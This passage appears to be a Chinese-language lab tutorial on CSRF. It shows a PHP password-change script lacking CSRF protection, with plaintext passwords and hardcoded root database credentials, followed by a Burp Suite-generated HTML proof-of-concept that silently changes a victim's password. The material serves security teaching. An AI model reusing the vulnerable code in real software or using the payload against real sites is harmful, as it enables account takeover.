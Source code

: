![image-20230208233049007](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230209182648030.png)

创建`change.php`文件

```php
<?php
    session_start();
    if($_SESSION['login'] === 1 && $_POST['passwd'] && $_POST['passwd'] === $_POST['re_passwd']){
        echo "正在修改";
        $user = $_SESSION['user'];
        $passwd = $_POST['passwd'];
        $sql = "UPDATE users SET passwd = ? WHERE users.user = ?";
        $conn = mysqli_connect("localhost", "root", "123456", "test");
        $stmt = mysqli_prepare($conn, $sql);
        mysqli_stmt_bind_param($stmt, "ss", $passwd, $user);
        if(mysqli_stmt_execute($stmt)){
            $result = mysqli_stmt_get_result($stmt);
            print_r(mysqli_affected_rows($conn));

            if($row = mysqli_affected_rows($conn)){
                echo "修改成功".$row;
                session_destroy();
                echo "<br> <a href='http://localhost/login.php'>重新登录</a>";
            }

        }
    }elseif($_SESSION['login'] == 0){
        header("Location: http://localhost/login.php");
    }
```

![image-20230208210341480](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230208233351891.png)

下面通过Burp Suite进行CSRF攻击

第一步：登录root账号

![image-20230209182648030](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230208233049007.png)

第二步：修改密码，并开始抓包

![image-20230209183208462](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230209183135472.png)



第三步：生成POC

![image-20230209183135472](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230209183208462.png)

![image-20230209183245596](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230209183245596.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.154.186/change.php" method="POST">
      <input type="hidden" name="passwd" value="root" />
      <input type="hidden" name="re&#95;passwd" value="root" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
